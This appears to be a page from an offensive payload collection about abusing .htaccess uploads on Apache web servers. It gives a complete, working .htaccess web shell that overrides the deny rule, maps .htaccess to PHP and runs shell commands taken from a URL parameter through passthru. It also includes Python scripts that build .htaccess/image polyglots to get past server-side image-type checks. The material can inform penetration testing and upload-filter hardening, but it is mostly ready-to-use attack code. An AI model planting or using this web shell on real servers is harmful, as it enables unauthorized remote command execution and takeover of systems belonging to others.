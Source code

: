# .htaccess upload

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

Self contained .htaccess web shell

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

# .htaccess upload as image

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot. 

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

```python
# create valid .htaccess/xbm image

width = 50
height = 50
payload = '# .htaccess file'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```
or
```python
# create valid .htaccess/wbmp image

type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'# .htaccess file'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

## Thanks to

* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Writeup to l33t-hoster task, Insomnihack Teaser 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
